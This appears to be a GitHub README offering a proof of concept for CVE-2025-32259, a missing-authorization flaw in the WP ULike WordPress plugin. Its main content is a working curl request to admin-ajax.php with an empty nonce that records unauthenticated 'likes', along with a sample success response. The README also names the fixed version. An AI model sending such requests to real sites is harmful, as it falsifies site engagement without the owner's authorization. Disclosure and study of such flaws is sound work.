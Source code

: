 # WP ULike ≤ 4.7.9.1 - Unauthenticated Content Spoof (CVE-2025-32259)

> 🔬 A simple PoC demonstrating CVE-2025-32259 in the WP ULike plugin for WordPress.  
> 🚨 Educational use only – do not test on systems without explicit authorization.

---

## 🧠 Overview

WP ULike is a popular WordPress plugin that allows users to like content on a site. Versions up to 4.7.9.1 suffer from a **missing authorization vulnerability**, allowing unauthenticated users to spoof "like" actions via AJAX requests.

- **CVE:** [CVE-2025-32259](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-32259)
- **Vulnerable Versions:** ≤ 4.7.9.1
- **Fixed Version:** 4.7.9.2

---

## 🚀 Proof of Concept

The vulnerability allows unauthenticated users to interact with the AJAX endpoint and like any content (post, comment, etc.) without permission.

### 🔧 PoC Script

```bash
curl -X POST https://target-site.com/wp-admin/admin-ajax.php \
  -d "action=wp_ulike_process" \
  -d "method=likeThis" \
  -d "id=1" \
  -d "type=post" \
  -d "nonce=" \
  -H "Content-Type: application/x-www-form-urlencoded"

Replace id=1 with a valid post ID.

A successful response might look like:
{"status":"success","msg":"You liked this."}
